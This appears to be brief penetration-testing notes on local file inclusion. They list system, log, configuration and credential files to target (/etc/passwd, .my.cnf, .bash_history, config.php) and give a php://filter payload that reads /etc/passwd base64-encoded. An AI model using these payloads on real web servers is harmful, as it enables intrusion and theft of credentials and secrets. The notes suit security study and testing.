 # LFI

usually happens when you have dynamic content based on a parameter

## common files

```text
/etc/knockd.conf
/etc/default/knockd
/etc/issue
/etc/motd
/etc/group
/etc/passwd
/var/www/html/.htaccess
/etc/httpd/logs/acces_log
/etc/httpd/logs/error_log
/var/www/logs/access_log
/var/www/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access.log
/var/log/apache/access_log
/var/log/apache2/access_log
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/access_log
/var/www/html/db.php
/var/www/html/db/db.php
/var/www/html/config.php
```

## user home directory and root

```text
bash_history
.mysql_history
.my.cnf
.profile
```

## configuration files

`find / -type f 2>/dev/null | grep -i conf` db/db.php db.php session.php config.php mysql.conf

## common things during LFI

?page=php://filter/convert.base64-encode/resource=/etc/passwd User-Agent: Mozilla/5.0 like Gecko

